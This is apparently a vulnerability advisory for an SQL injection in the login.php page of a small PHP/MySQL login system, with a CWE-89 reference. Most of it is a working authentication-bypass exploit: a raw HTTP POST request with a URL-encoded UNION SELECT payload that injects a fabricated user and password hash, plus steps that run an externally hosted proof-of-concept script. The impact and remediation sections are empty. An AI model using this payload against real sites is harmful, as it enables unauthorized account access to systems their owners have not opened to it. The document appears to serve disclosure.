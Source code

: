 # keerti1924 / PHP-MYSQL-User-Login-System - login.php SQL Injection

## Vendor Homepage:
[PHP-MYSQL-User-Login-System](https://github.com/keerti1924/PHP-MYSQL-User-Login-System)

## Impact

## Proof of Concept
Step 1: Visit the /login.php
Step 2: Open Browser Console
Step 3: Run [SQLI Auth POC](https://raw.githubusercontent.com/skid-nochizplz/skid-nochizplz/main/TrashBin/CVE/keerti1924%20PHP-MYSQL-User-Login-System/SQLI%20Auth%20POC.js)
Step 4: User will be redirected to home.php

## HTTP Request Example
```http request
POST /login.php HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 246

email='%20UNION%20SELECT%201%20AS%20id%2c%20'NoChizPlz'%20AS%20username%2c%20'nochizplz%40nochizplz.com'%20AS%20email%2c%20'%242a%2412%24xkhwduBCkSl3tPhWVokC%2fOmrhboA0gxDWaVLl4uPLr2iSbXEtNdCq'%20AS%20password%20%23&password=nochizplz&login=Login
```

### Proof with Video:

## Remediation

## CWE
[CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)